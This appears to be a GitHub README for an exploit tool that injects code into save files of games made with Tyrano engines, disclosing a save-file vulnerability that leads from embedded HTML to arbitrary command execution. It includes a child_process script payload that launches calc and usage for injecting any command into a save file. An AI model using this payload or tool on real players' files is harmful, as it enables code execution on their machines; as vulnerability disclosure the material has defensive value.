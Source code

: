 # TyranoKiller
Code injection tool for Tyrano.  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

## Vulnerability
All games created with the tools listed below have a vulnerability in the save data file.  
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.01c  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScript <= 4.88)  
- (TyranoScriptV5 <= 5.07b)  

Attackers can use Node.js functionality from JavaScript by embedding HTML tags in save data files, allowing them to execute arbitrary code.
They can also do that using the game development data `index.html`.
The ability to inject into index.html is not included in this tool, but by previewing the game with the following code embedded, it becomes XSS to ACE.  
```html
<script>
require("child_process").exec("calc");
</script>
```
Don't use untrusted files.  

### Demo
![calc.gif](images/calc.gif)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
The default is to execute the `calc` command.
The code will only be injected into the first save data.  
